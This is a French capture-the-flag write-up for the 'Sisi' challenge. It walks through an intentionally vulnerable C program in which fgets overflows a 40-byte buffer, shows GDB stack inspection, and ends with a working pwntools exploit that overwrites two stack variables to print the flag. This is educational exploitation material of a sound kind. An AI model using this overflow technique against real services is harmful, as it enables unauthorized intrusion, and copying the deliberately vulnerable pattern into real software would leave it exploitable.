

# Sisi



## Write-Up

### Première exécution

Les interactions avec le challenge sont assez simples :
- L'accès à l'application se fait via un socket réseau
- Le programme nous renvoit une chaîne de caractères
- Le programme lit un input
- Le programme nous dit qu'on est mauvais
- Le programme quitte

```bash
$ nc challs.hackagou.nc 5005
Bienvenue sur le portail d'Open NC :)

Merci
Malheureusement, vous êtes mauvais...
```

### Analyse statique

Le challenge nous permet de télécharger le code source du binaire à exploiter sur le serveur.

Code simpliste :
- Deux variables sont définies, check et key
- Un buffer de 40 octets est défini mais la fonction fgets peut en recevoir 49, il y a sûrement un buffer overflow en vue
- Vérification des 2 variables check et key avec des valeurs inversées
- Si la condition est vraie : exécution de `cat flag.txt`
- Sinon sortie du programme

```c
#include <unistd.h>
#include <sys/types.h>
#include <stdlib.h>
#include <stdio.h>
     
int main()
{
  setvbuf(stdout, NULL, _IONBF, 0);
  
  int check=0xbebebeef;
  int key=0xcafedead;
  char buf[40];
  
  puts("Bienvenue sur le portail d'Open NC :)\n");
  fgets(buf,49,stdin);
     
  if ((check==0xcafedead) && (key==0xbebebeef))
   {
     puts("Bien joué jeune padawan, as-tu atteint ton but ?!\n");
     system("/usr/bin/cat flag.txt");
     puts("Déconnexion...\n");
   }
  else
   {
     printf("Malheureusement, vous êtes mauvais...\n");
   }
   return 0;
}

// gcc -Wall -fno-stack-protector -no-pie -o sisi sisi.c
```

La commande de compilation est fournie, en compilant avec ces paramètres, on voit que l'exécution de code depuis la stack est impossible :

```bash
$ checksec sisi
[*] '/home/opennc/sisi'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```

### Exploit

Avec tout ça, on conclut rapidement que c'est un buffer overflow dont le but est d'écraser les valeurs des variables check et key :
- Remplir les 40 octets du buffer buf
- Ecrire les valeurs des variables pour que le check soit juste, 8 octets au total

Commençons par regarder comment sont organisées les variables check et key dans la stack. Pour cela, nous mettons un breakpoint sur le check dans GDB et entrons une input "normale".

<pre><code>$ gdb ./sisi
gdb-peda$ disassemble main 
Dump of assembler code for function main:
   [..]
   0x00000000004011f0 <+90>:	call   0x401090 <fgets@plt>
   <b><ins>0x00000000004011f5 <+95>:	cmp    DWORD PTR [rbp-0x4],0xcafedead</ins></b>
   0x00000000004011fc <+102>:	jne    0x401236 <main+160>
   0x00000000004011fe <+104>:	cmp    DWORD PTR [rbp-0x8],0xbebebeef
   0x0000000000401205 <+111>:	jne    0x401236 <main+160>
   [...]
End of assembler dump.
gdb-peda$ break *0x00000000004011f5
Breakpoint 1 at 0x4011f5
gdb-peda$ run
Starting program: /home/yoan/Documents/Dev/CTF-Making/OpenNC2023/sisi/sisi 
[Thread debugging using libthread_db enabled]
Using host libthread_db library "/lib/x86_64-linux-gnu/libthread_db.so.1".
Bienvenue sur le portail d'Open NC :)

MonInput

[...]

[-------------------------------------code-------------------------------------]
   0x4011e8 <main+82>:	mov    esi,0x31
   0x4011ed <main+87>:	mov    rdi,rax
   0x4011f0 <main+90>:	call   0x401090 <fgets@plt>
=> 0x4011f5 <main+95>:	cmp    DWORD PTR [rbp-0x4],0xcafedead
   0x4011fc <main+102>:	jne    0x401236 <main+160>
   0x4011fe <main+104>:	cmp    DWORD PTR [rbp-0x8],0xbebebeef
   0x401205 <main+111>:	jne    0x401236 <main+160>
   0x401207 <main+113>:	lea    rax,[rip+0xe22]        # 0x402030
[------------------------------------stack-------------------------------------]
0000| 0x7fffffffdc30 ("MonInput\n")
0008| 0x7fffffffdc38 --> 0xa ('\n')
0016| 0x7fffffffdc40 --> 0x0 
0024| 0x7fffffffdc48 --> 0x0 
0032| 0x7fffffffdc50 --> 0x0 
<b><ins>0040| 0x7fffffffdc58 --> 0xbebebeefcafedead</b></ins>
0048| 0x7fffffffdc60 --> 0x1 
0056| 0x7fffffffdc68 --> 0x7ffff7c29d90 (<__libc_start_call_main+128>:	mov    edi,eax)
[------------------------------------------------------------------------------]
Legend: code, data, rodata, value

Breakpoint 1, 0x00000000004011f5 in main ()</code></pre>

Nous voyons que les valeurs de check et key sont bien à partir du 40ème octet. Essayons de les écraser avec des valeurs arbitraires.

<pre><code>gdb-peda$ run
Starting program: /home/yoan/Documents/Dev/CTF-Making/OpenNC2023/sisi/sisi 
[Thread debugging using libthread_db enabled]
Using host libthread_db library "/lib/x86_64-linux-gnu/libthread_db.so.1".
Bienvenue sur le portail d'Open NC :)

AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABBBBCCCC

[...]
[-------------------------------------code-------------------------------------]
   0x4011e8 <main+82>:	mov    esi,0x31
   0x4011ed <main+87>:	mov    rdi,rax
   0x4011f0 <main+90>:	call   0x401090 <fgets@plt>
=> 0x4011f5 <main+95>:	cmp    DWORD PTR [rbp-0x4],0xcafedead
   0x4011fc <main+102>:	jne    0x401236 <main+160>
   0x4011fe <main+104>:	cmp    DWORD PTR [rbp-0x8],0xbebebeef
   0x401205 <main+111>:	jne    0x401236 <main+160>
   0x401207 <main+113>:	lea    rax,[rip+0xe22]        # 0x402030
[------------------------------------stack-------------------------------------]
0000| 0x7fffffffdc30 ('A' <repeats 40 times>, "BBBBCCCC")
0008| 0x7fffffffdc38 ('A' <repeats 32 times>, "BBBBCCCC")
0016| 0x7fffffffdc40 ('A' <repeats 24 times>, "BBBBCCCC")
0024| 0x7fffffffdc48 ('A' <repeats 16 times>, "BBBBCCCC")
0032| 0x7fffffffdc50 ("AAAAAAAABBBBCCCC")
<b><ins>0040| 0x7fffffffdc58 ("BBBBCCCC")</b></ins>
0048| 0x7fffffffdc60 --> 0x0 
0056| 0x7fffffffdc68 --> 0x7ffff7c29d90 (<__libc_start_call_main+128>:	mov    edi,eax)
[------------------------------------------------------------------------------]
Legend: code, data, rodata, value

Breakpoint 1, 0x00000000004011f5 in main ()
</code></pre>

Nos valeurs BBBB et CCCC sont bien écrites en lieu et place des valeurs de check et key.

L'organisation en mémoire étant en little-endian, les valeurs doivent être écrites en respectant cette convention.

Ainsi, le code d'exploitation en utilisant pwntools est le suivant :

```python
#!/usr/bin/env python3

from pwn import *

conn = remote('challs.hackagou.nc', 5005)
conn.recvuntil(b'\n\n')
log.success('Received lines')
conn.send(b'A'*40 + b'\xef\xbe\xbe\xbe\xad\xde\xfe\xca')
log.success('Payload sent')
conn.interactive()
```

```
$ python3 pwn-sisi.py
[+] Opening connection to challs.hackagou.nc on port 5005: Done
[+] Received lines
[+] Payload sent
[*] Switching to interactive mode
Bien joué jeune padawan, as-tu atteint ton but ?!

OPENNC{H4cK4g0u_C357_34sY}
Déconnexion...

[*] Got EOF while reading in interactive
```
